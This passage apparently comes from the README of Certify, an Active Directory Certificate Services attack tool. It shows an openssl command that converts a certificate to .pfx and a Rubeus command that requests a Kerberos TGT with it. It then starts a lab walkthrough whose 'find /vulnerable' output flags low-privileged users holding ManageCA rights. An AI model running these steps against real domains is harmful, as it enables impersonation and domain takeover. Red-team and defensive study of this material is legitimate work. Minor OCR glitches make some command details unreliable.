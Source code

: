 Certificates can be transformed to .pfx's usable with Certify with:

 openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certificates can be used with Rubeus to request a TGT with:

 Rubeus.exe asktgt /user:X /certificate\Temp\cert.pfx /password:<CERT_PASSWORD>


## Example Walkthrough

First, use Certify.exe to see if there are any vulnerable templates:

 C:\Temp>Certify.exe find /vulnerable
 _____ _ _ __
 / ____| | | (_)/ _|
 | | ___ _ __| |_ _| |_ _ _
 | | / _ \ '__| __| | _| | | |
 | |___| __/ | | |_| | | | |_| |
 \_____\___|_| \__|_|_| \__, |
 __/ |
 |___./
 v1.0.0

 [*] Action: Find certificate templates
 [*] Using the search base 'CN=Configuration,DC=theshire,DC=local'
 [*] Restricting to CA name : dc.theshire.local\theshire-DC-CA

 [*] Listing info about the Enterprise CA 'theshire-DC-CA'

 Enterprise CA Name : theshire-DC-CA
 DNS Hostname : dc.theshire.local
 FullName : dc.theshire.local\theshire-DC-CA
 Flags : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
 Cert SubjectName : CN=theshire-DC-CA, DC=theshire, DC=local
 Cert Thumbprint : 187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2
 Cert Serial : 14BFC25F2B6EEDA94404D5A5B0F33E21
 Cert Start Date : 1/4/2021 1002 AM
 Cert End Date : 1/4/2026 1002 AM
 Cert Chain : CN=theshire-DC-CA,DC=theshire,DC=local
 UserSpecifiedSAN : Disabled
 CA Permissions :
 Owner: BUILTIN\Administrators S-1-5-32-544

 Access Rights Principal

 Allow ManageCA, ManageCertificates BUILTIN\Administrators S-1-5-32-544
 Allow ManageCA, ManageCertificates THESHIRE\Domain Admins S-1-5-21-937929760-3187473010-80948926-512
 Allow ManageCA, Read, Enroll THESHIRE\Domain Users S-1-5-21-937929760-3187473010-80948926-513
 [!] Low-privileged principal has ManageCA rights!
 Allow Enroll THESHIRE\Domain Computers S-1-5-21-937929760-3187473010-80948926-515
 Allow ManageCA, ManageCertificates THESHIRE\Enterprise Admins S-1-5-21-937929760-3187473010-80948926-519
 Allow ManageCertificates, Enroll THESHIRE\certmanager S-1-5-21-937929760-3187473010-80948926-1605
 Allow ManageCA, Enroll THESHIRE\certadmin S-1-5-21-937929760-3187473010-80948926-1606
 Enrollment Agent Restrictions :
 Everyone S-1-1-0
 Template : <All>
 Targets :
 Everyone S-1-1-0
